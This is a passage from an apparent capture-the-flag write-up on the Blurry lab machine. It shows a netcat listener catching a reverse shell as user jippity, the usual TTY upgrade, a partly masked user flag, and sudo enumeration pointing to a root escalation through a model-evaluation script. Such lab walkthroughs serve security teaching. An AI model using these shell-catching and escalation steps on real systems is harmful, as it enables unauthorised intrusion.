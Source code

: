 On re-running `exploit.py`, and after two minutes, there’s a shell from Blurry:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.19 55648
bash: cannot set terminal process group (8406): Inappropriate ioctl for device
bash: no job control in this shell
jippity@blurry:~$

```

I’ll upgrade my shell using the [standard technique](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

jippity@blurry:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
jippity@blurry:~$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
jippity@blurry:~$

```

And grab `user.txt`:

```

jippity@blurry:~$ cat user.txt
b83a071a************************

```

## Shell as root

### Enumeration

#### sudo

jippity has the ability to run the `evalute_model` script as root:

```

jippity@blurry:~$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth

```
